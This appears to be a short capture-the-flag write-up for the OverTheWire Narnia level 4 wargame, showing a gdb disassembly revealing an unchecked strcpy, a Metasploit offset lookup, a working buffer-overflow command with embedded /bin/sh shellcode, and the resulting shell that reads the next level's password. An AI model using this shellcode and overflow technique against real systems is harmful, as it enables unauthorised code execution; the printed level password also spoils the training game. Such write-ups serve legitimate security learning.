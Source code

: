 +++
title = "Over the wire - narnia04"
description = "Walk-through"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-04"
project_url = "https://greyhat.dk/over-the-wire-narnia-04"
type = "post"
+++



(gdb) disassemble main
Dump of assembler code for function main:
   0x080484ad <+0>:	push   ebp
   0x080484ae <+1>:	mov    ebp,esp
   0x080484b0 <+3>:	and    esp,0xfffffff0
   0x080484b3 <+6>:	sub    esp,0x120 ; 288 
   0x080484b9 <+12>:	mov    DWORD PTR [esp+0x11c],0x0
   0x080484c4 <+23>:	jmp    0x8048511 <main+100>
   0x080484c6 <+25>:	mov    eax,ds:0x80497e0 ; <environ@@GLIBC_2.0>:	"`\327\377\377"
   0x080484cb <+30>:	mov    edx,DWORD PTR [esp+0x11c]
   0x080484d2 <+37>:	shl    edx,0x2
   0x080484d5 <+40>:	add    eax,edx
   0x080484d7 <+42>:	mov    eax,DWORD PTR [eax]
   0x080484d9 <+44>:	mov    DWORD PTR [esp],eax
   0x080484dc <+47>:	call   0x8048380 <strlen@plt>
   0x080484e1 <+52>:	mov    edx,DWORD PTR ds:0x80497e0
   0x080484e7 <+58>:	mov    ecx,DWORD PTR [esp+0x11c]
   0x080484ee <+65>:	shl    ecx,0x2
   0x080484f1 <+68>:	add    edx,ecx
   0x080484f3 <+70>:	mov    edx,DWORD PTR [edx]
   0x080484f5 <+72>:	mov    DWORD PTR [esp+0x8],eax
   0x080484f9 <+76>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048501 <+84>:	mov    DWORD PTR [esp],edx
   0x08048504 <+87>:	call   0x80483a0 <memset@plt>
   0x08048509 <+92>:	add    DWORD PTR [esp+0x11c],0x1
   0x08048511 <+100>:	mov    eax,ds:0x80497e0
   0x08048516 <+105>:	mov    edx,DWORD PTR [esp+0x11c]
   0x0804851d <+112>:	shl    edx,0x2
   0x08048520 <+115>:	add    eax,edx
   0x08048522 <+117>:	mov    eax,DWORD PTR [eax]
   0x08048524 <+119>:	test   eax,eax
   0x08048526 <+121>:	jne    0x80484c6 <main+25>
   0x08048528 <+123>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804852c <+127>:	jle    0x8048546 <main+153>
   0x0804852e <+129>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048531 <+132>:	add    eax,0x4
   0x08048534 <+135>:	mov    eax,DWORD PTR [eax]
   0x08048536 <+137>:	mov    DWORD PTR [esp+0x4],eax
   0x0804853a <+141>:	lea    eax,[esp+0x1c]
   0x0804853e <+145>:	mov    DWORD PTR [esp],eax
   0x08048541 <+148>:	call   0x8048360 <strcpy@plt>
   0x08048546 <+153>:	mov    eax,0x0
   0x0804854b <+158>:	leave
   0x0804854c <+159>:	ret
End of assembler dump.


kgn@kali:~$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 0x316a4130
[*] Exact match at offset 272

narnia4@melinda:/tmp/d4$ /narnia/narnia4 $(python -c 'print "\x90"*219 + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90\xd7\xff\xff"')
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
faimahchiy
